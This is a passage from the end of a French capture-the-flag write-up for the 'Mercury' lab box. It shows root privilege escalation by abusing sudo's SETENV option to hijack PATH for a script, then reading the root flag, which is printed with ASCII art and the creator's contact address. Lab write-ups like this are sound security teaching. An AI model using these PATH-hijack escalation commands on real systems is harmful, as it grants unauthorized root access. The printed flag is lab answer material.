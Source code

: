```bash
sudo --preserve-env=PATH /usr/bin/check_syslog.sh
```

Et on devient root !

On aurait pu également directement affecter la nouvelle valeur à notre variable d'environnement directement depuis la commande :

```bash
sudo PATH=/tmp:$PATH /usr/bin/check_syslog.sh
```

Il ne nous reste plus qu'à récupérer le flag root :

```bash
cat /root/root_flag.txt
```

```
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@/##////////@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@(((/(*(/((((((////////&@@@@@@@@@@@@@
@@@@@@@@@@@((#(#(###((##//(((/(/(((*((//@@@@@@@@@@
@@@@@@@@/#(((#((((((/(/,*/(((///////(/*/*/#@@@@@@@
@@@@@@*((####((///*//(///*(/*//((/(((//**/((&@@@@@
@@@@@/(/(((##/*((//(#(////(((((/(///(((((///(*@@@@
@@@@/(//((((#(((((*///*/(/(/(((/((////(/*/*(///@@@
@@@//**/(/(#(#(##((/(((((/(**//////////((//((*/#@@
@@@(//(/((((((#((((#*/((///((///((//////(/(/(*(/@@
@@@((//((((/((((#(/(/((/(/(((((#((((((/(/((/////@@
@@@(((/(((/##((#((/*///((/((/((##((/(/(/((((((/*@@
@@@(((/(##/#(((##((/((((((/(##(/##(#((/((((#((*%@@
@@@@(///(#(((((#(#(((((#(//((#((###((/(((((/(//@@@
@@@@@(/*/(##(/(###(((#((((/((####/((((///((((/@@@@
@@@@@@%//((((#############((((/((/(/(*/(((((@@@@@@
@@@@@@@@%#(((############(##((#((*//(/(*//@@@@@@@@
@@@@@@@@@@@/(#(####(###/((((((#(///((//(@@@@@@@@@@
@@@@@@@@@@@@@@@(((###((#(#(((/((///*@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@%#(#%@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

Congratulations on completing Mercury!!!
If you have any feedback please contact me at SirFlash@protonmail.com
[root_flag_69426d9fda579afbffd9c2d47ca31d90]
```

Dans cette box j'ai appris l'existence de l'option **SETENV** dans le fichier ``sudoers`` ainsi que comment l'exploiter.

Un grand merci à son créateur !